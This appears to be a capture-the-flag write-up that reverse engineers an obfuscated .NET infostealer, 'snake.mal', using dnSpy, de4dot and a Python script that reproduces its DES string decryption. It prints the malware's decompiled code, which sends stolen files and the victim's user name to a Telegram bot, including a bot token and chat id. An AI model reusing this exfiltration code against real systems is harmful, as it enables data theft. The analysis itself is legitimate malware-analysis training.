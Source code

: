 # stealer
### Overview

The task involved reverse engineering a `.Net 32-bit` executable named `snake.mal`. The primary objective was to analyze the executable, identify its functionality, and decode any hidden or encrypted data within the file. The reversing process was conducted using dnspy for decompiling the executable, and `de4dot` for deobfuscation and a custom python script to decrypt strings used by the malware.

### Initial Analysis

Upon opening `snake.mal.exe` in a dnSpy, it was evident that the executable was heavily obfuscated. The functions and classes were renamed to nonsensical names, making manual analysis difficult.

![image](https://github.com/user-attachments/assets/c7aade9d-9670-4ff0-97c2-2c966c68a8a4)


To proceed with the analysis, `de4dot` was employed to clean the obfuscated code. Running the tool produced a cleaned version of the executable, where the obfuscated symbols were renamed to more readable forms, significantly easing the analysis process.

```jsx
C:\Users\mahmoud\Desktop> C:\Tools\de4dot\de4dot.exe snake.mal

de4dot v3.1.41592.3405 Copyright (C) 2011-2015 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\mahmoud\Desktop\snake\snake.mal)
Cleaning C:\Users\mahmoud\Desktop\snake\snake.mal
Renaming all obfuscated symbols
Saving C:\Users\mahmoud\Desktop\snake\snake-cleaned.mal
```

![image](https://github.com/user-attachments/assets/34de0158-f1ff-491b-8a49-4417c771aee0)


With the code now more readable, we can delve into its functionality.

Found some functions that provide clear evidence that the malware is stealing data.

![image](https://github.com/user-attachments/assets/f641cca3-ed1a-44ba-8e0d-c40b52f98074)


Other numerous functions have been identified that appear to interact with Telegram.

![image](https://github.com/user-attachments/assets/893047fe-11d4-4aca-885b-fd511b1540e3)


If we examine the methods from the previous screenshot, several of them call a function named `smethod_16`, each passing different encrypted strings to it.



The `smethod_16` function is a decryption method, which utilized DES encryption with a key derived from an MD5 hash. 

![image](https://github.com/user-attachments/assets/d486e355-593a-49b9-9429-542bed21440c)

### Decrypting Strings

Wrote Python script to replicate this decryption process:

```jsx
import base64
from Crypto.Cipher import DES
from Crypto.Hash import MD5

def smethod_16(encrypted_string, key):
    try:
        des = DES.new(MD5.new(key.encode()).digest()[:8], DES.MODE_ECB)
        decrypted_bytes = des.decrypt(base64.b64decode(encrypted_string))
        decrypted_string = decrypted_bytes.decode()
        return decrypted_string
    except Exception as e:
        print(f"Error decrypting string: {e}")
        return None
    
```
### Results of Decryption

By applying the Python function to the encrypted strings, the following results were obtained:

```jsx
print(smethod_16("zMaRPCbE0Gb4k/zB6ZNS3r1L34TENqMZD9RW6hkhoOE=", "nnrCOnrJyiwsACMwnkEJB"))
# result "https://api.telegram.org/bot"

print(smethod_16("FphMdFa3hOQv6jbOo+Di/krf6/KeCXcASv1A0PTZtTaqOQqu46FvhqM0pdqb8g0/", "BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr"))
# result "7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9"
```
These strings were used to construct a Telegram API request:

```jsx
			ServicePointManager.Expect100Continue = false;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			string text2 = string.Concat(new string[]
			{
				https://api.telegram.org/bot,
				7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
				/sendDocument?chat_id=,
				5481237002,
				"&caption=",
				string.Concat(new string[]
				{
					" Pc Name: ",
					Environment.UserName,
					" | Snake Tracker\r\n\r\nPW | ",
					Environment.UserName,
					" | Snake\r\n\r\n\r\n"
				})
			});
```

Given our understanding of the Telegram API, these strings are parameters used to communicate with a Telegram bot. This suggests that the malware is designed to steal data and then use the bot to upload that data.

### Getting The Flag

To obtain the flag, all we needed to do was decode the bot token, which revealed the flag.

```jsx
$ echo QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9 | base64 -d           
BHFlagY{t3legr4m_g0es_w!ld} 
```
